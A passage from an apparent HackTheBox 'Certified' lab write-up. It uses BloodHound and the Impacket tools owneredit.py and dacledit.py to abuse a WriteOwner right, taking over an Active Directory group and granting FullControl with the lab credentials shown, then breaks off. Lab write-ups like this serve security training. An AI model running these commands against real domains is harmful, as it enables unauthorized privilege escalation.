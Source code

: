 INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.certified.htb
INFO: Done in 00M 03S
{{< /highlight >}}

In BloodHound, we can quickly notice which path to take in order to gain access to DC01.
![](BH_path.PNG)


## User
### Judith -> Management Group
We can see *Judith* has ```WriteOwner``` over the *management* group.
This allows us to add *Judith* as the owner and then as a member of this group.
![](BH_judith.png)

First, we change the ownership of the group.
{{< highlight go "hl_lines=1" >}}
$ ./owneredit.py -action write -new-owner 'judith.mader' -target 'MANAGEMENT' 'CERTIFIED.HTB'/'judith.mader':'judith09'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
{{< /highlight >}}

Then, we add *Judith* as a member of the group.
{{< highlight go "hl_lines=1 7 11 13" >}}
$ ./dacledit.py -k 'certified.htb/judith.mader:judith09' -dc-ip certified.htb -principal judith.mader -target "management" -action write -rights FullControl
[-] CCache file is not found. Skipping...
[*] DACL backed up to dacledit-20250314-002015.bak
[*] DACL modified successfully!


$ net rpc group members "management" -U 'judith.mader' -S certified.htb           
Password for [WORKGROUP\judith.mader]:
CERTIFIED\management_svc
